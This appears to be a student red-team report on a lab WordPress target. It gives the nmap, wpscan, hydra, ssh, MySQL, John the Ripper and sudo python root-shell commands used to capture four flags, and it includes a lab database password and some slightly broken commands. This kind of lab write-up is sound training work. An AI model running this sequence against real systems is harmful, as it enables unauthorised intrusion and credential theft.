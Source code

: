 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sv 192.168.1.0/24
```
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - Port 22 ssh
  - Port 80 http
  - Port 111 rpcbind
  - Port 139 netbios-ssn
  - Port 445 netbios-ssn

The following vulnerabilities were identified on each target:
- Target 1
  - Weak User Password (High Severity)
  - User Enumeration (Medium Severity)
  - User Privelege Escalation (High Severity)

### Exploitation

The Red Team was able to penetrate Target 1 and retrieve the following confidential data:
- Target 1
  - `flag1`: b9bbcb33e11b80be759c4e844862482d
    - Users were enumerated with wpscan, Brute Force attack against weak password, then I exploited open port 22
      - wpscan was used to enumerate the users on Target 1
      - Command: `$ wpscan --url http://192.168.1.110/wordpress --enumerate u`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/wpscan.PNG)
   - User michael was targeted
   - Used hydra to brute force `$ hydra -l michael -p /usr/share/wordlists/dirb`
   - Capturing the first flag:
      - `ssh michael@192.168.1.110`
      - `cd /var/www/html`
      - `grep -ir flag1`
![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag1.PNG)
      
  - `flag2`: fc3fd58dcdad9ab23faca6e9a3e581c
    - The same process was used, but I used these commands:
      - `cd /var/www`
      - `ls' found flag2.txt

![](https://github.com/Nhiwins/Final-Project/blob/main/Images/flag2.PNG)

  - `flag3`: afc01ab56b50591e7dccf93122770cd2 and `flag4`: 715dea6c055b9fe3337544932f2941ce
    - To find MySql database login information, this command was used: `cat /var/www/html/wordpress/wp-config.php`
 #### photo myswl pword
 
    - MySql was were flag3 and flag4 were found using these commands:
      - `mysql -u root -p'R@venSecurity'`
      - `SHOW DATABASES;`
      - `USE wordpress;`
      - `SHOW tables;`
      - `SELECT * FROM wp_posts;`
#### Photo flags
  -Additionally, hashes for each user was found, and privelege escalation was exploited.
#### Photo hashes
    - I created a file with the hashes and used John the Ripper to crack them
      - `john hashes.txt -wordlist=/usr/share/wordlists/dirb/big.txt`
    - From there, I connected to Steven's account and open a python shell with root privelege
      - ssh steven@192.168.1.110
      - sudo python -c ‘import pty;pty.spawn(“/bin/bash”)’
#### Last photo
